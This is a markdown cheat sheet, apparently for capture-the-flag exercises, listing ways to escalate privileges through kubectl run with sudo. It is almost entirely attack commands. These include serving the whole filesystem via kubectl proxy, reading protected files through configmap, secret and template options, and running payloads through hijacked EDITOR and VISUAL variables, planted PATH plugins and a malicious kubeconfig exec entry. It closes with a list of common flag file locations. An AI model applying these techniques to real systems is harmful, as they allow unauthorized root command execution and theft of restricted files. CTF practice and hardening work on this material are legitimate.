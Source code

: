 # kubectl Privilege Escalation Cheat Sheet .. (not-great-beta-edition) ..

## File Serving Vectors
```bash
# Basic file server
sudo kubectl proxy --address=0.0.0.0 --port=PORT --www=PATH --www-prefix=/x/

# Bypass filters
sudo kubectl proxy --www=PATH --www-prefix=/x/ --disable-filter=true

# Serve filesystem root
sudo kubectl proxy --www=/ --www-prefix=/x/

# Access via: wget -qO- http://localhost:PORT/x/target/file
```

## File Reading Techniques
```bash
# ConfigMap creation (dry-run)
sudo kubectl create configmap test --from-file=TARGET --dry-run=client -o yaml

# Secret creation 
sudo kubectl create secret generic test --from-file=TARGET --dry-run=client -o yaml

# Apply with validation
sudo kubectl apply --validate=false --dry-run=client -f TARGET

# File conversion attempts
sudo kubectl convert -f TARGET
```

## Symlink Bypasses
```bash
# Create accessible symlinks
ln -sf /target/file /writable/location
# Access via proxy serving parent directory

# Directory symlinks
ln -sf /target/directory /accessible/path
```

## Environment Variable Abuse
```bash
# Editor hijacking
export EDITOR="command_here; original_editor"
sudo kubectl edit resource

export VISUAL="payload; editor"

# Path manipulation for plugins
echo '#!/bin/sh\npayload' > /tmp/kubectl-custom
chmod +x /tmp/kubectl-custom
PATH=/tmp:$PATH sudo kubectl custom
```

## Configuration Exploitation
```bash
# Malicious kubeconfig with exec
cat > config.yaml << 'EOF'
apiVersion: v1
kind: Config
users:
- name: user
  user:
    exec:
      command: /target/command
      args: ["arg1"]
      apiVersion: client.authentication.k8s.io/v1beta1
EOF

sudo kubectl --kubeconfig=config.yaml command
```

## Output Format Abuse
```bash
# Custom column files
sudo kubectl get -o custom-columns-file=TARGET pods

# Raw output attempts
sudo kubectl get --raw TARGET

# Template processing
sudo kubectl get -o go-template-file=TARGET resource
```

## File Discovery
```bash
# System enumeration
df  # May reveal restricted paths
find /writable -type l  # Find existing symlinks
ls -la /accessible/  # Directory traversal

# Proxy directory listing
wget -qO- http://localhost:PORT/prefix/path/
```

## Completion System
```bash
# Generate completion scripts
sudo kubectl completion bash > /tmp/comp
# May contain file references or can be modified

# Plugin enumeration  
sudo kubectl plugin list
```

## Error-Based Information Disclosure
```bash
# Invalid YAML parsing
echo 'apiVersion: /target/file' > invalid.yaml
sudo kubectl apply -f invalid.yaml

# Validation errors
sudo kubectl create --validate=true -f TARGET
```

## Network Bypass (if applicable)
```bash
# Local-only serving
sudo kubectl proxy --address=127.0.0.1 --port=PORT

# IPv6 binding
sudo kubectl proxy --address=::1 --port=PORT
```

## Common CTF File Locations
```
/flag*
/root/flag*
/home/user/flag*
/tmp/flag*
/var/tmp/flag*
/.flag*
/etc/flag*
```

## Debugging & Troubleshooting
```bash
# Version information
sudo kubectl version --client

# Configuration viewing
sudo kubectl config view

# Help system exploration
sudo kubectl COMMAND --help

# Process monitoring
ps aux | grep kubectl
netstat -tlpn | grep kubectl
```

